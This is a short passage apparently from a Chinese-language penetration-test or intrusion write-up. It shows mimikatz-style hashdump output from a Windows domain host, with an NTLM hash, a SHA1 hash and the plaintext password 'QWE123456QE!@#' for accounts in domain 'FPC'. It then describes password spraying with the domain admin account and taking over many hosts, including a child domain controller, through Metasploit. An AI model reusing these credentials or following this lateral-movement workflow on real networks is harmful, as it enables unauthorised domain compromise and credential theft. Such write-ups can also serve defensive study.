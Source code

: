 ##### 做 hashdump：

这里直接做完 hashdump 之后发现

```php
msv :   
     [00000003] Primary
     * Username : mqd.tdv 
     * Domain   : FPC
     * NTLM     : 7007ebae678042f1cf112578ac43bf68
     * SHA1     : 712ce4bf3a4a777582389d37f8d06158ed204f6b
    tspkg : 
    wdigest :   
     * Username : mqd.tdv 
     * Domain   : FPC
     * Password : QWE123456QE!@#
    kerberos :  
     * Username : mts.tdv
     * Domain   : FPC
     * Password : QWE123456QE!@#
    ssp :   
    credman :   
```

# 内网横向（因为自己失误造成了比较繁琐的过程）

因为前期已经看到了域管的账号就是 mqd.tdv，这里直接做密码喷洒，这里转到 msf 中看下。上线了如此多的主机，同时，DC2 子域控也进行了上线

### 第一天上线的主机：(MSF 上)

![image.png](assets/1698900706-a61165c2f10c7cd92994a2ae05e9689e.png)
